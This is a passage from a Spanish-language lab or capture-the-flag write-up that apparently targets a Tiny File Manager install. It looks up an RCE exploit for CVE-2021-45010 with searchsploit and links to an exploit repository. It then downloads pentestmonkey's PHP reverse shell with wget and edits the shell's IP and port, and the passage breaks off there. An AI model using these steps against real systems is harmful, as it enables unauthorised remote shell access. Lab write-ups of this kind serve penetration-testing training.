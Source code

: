 Al parecer, este Exploit es para la **versión 2.4.6**, aun así vamos a analizarlo:
```bash
searchsploit -m php/webapps/50828.sh 
  Exploit: Tiny File Manager 2.4.6 - Remote Code Execution (RCE)
      URL: https://www.exploit-db.com/exploits/50828
     Path: /usr/share/exploitdb/exploits/php/webapps/50828.sh
    Codes: CVE-2021-45010, CVE-2021-40964
 Verified: False
File Type: Unicode text, UTF-8 text
```
Según el Exploit, también puede funcionar con la **versión 2.4.3**, pero mejor busquemos por internet uno que sea específico para esta versión.

Encontré uno, incluso aquí está el Exploit para la **versión 2.4.6**:
* https://github.com/febinrev/tinyfilemanager-2.4.3-exploit

----

**IMPORTANTE**

Te voy a ahorrar el uso de estos Exploits, pues no van a servir. ¿Por qué? Porque no nos deja subir ningún archivo al directorio **Uploads** como viene en el Exploit, sino que se tiene que usar el directorio **Uploads** del directorio **tiny** que esta ahí.

En dicha carpeta solo acepta archivos **.php** y solo de manera temporal, es decir, que se borraran en menos de 1 minuto, por lo que debemos ser "rapidos" al momento de subir un archivo malicioso que nos ayude a ganar acceso a la máquina.

----

<h2 id="PruebaExp2">Cargando Reverse Shell de PHP en Servicio Tiny File Manager</h2>

Dejando a un lado los Exploits, lo que podemos hacer es cargar un payload malicioso hecho en **PHP** para así poder conectarnos de manera remota. Para esto, usaremos el siguiente link de **PentestMonkey**:
* https://github.com/pentestmonkey/php-reverse-shell

Vamos a descargar solamente el script:
* Obten el código del script solo dando en la opción de raw.

* Utiliza el comando wget para descargar este script:
```bash
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
Petición HTTP enviada, esperando respuesta... 200 OK
Longitud: 5491 (5.4K) [text/plain]
Grabando a: «php-reverse-shell.php»
*
php-reverse-shell.php  100%[=======================================================================================================================================>]   5.36K  --.-KB/s    en 0s      
*
(73.3 MB/s) - «php-reverse-shell.php» guardado [5491/5491]
```

* Cambiamos la **IP** y el **puerto**:
```bash
$VERSION = "1.0";
$ip = '127.0.0.1';  // CAMBIA POR TU IP
$port = 1234;       // CAMBIA ESTO POR UN PUERTO QUE QUIERAS
$chunk_size = 1400;
```
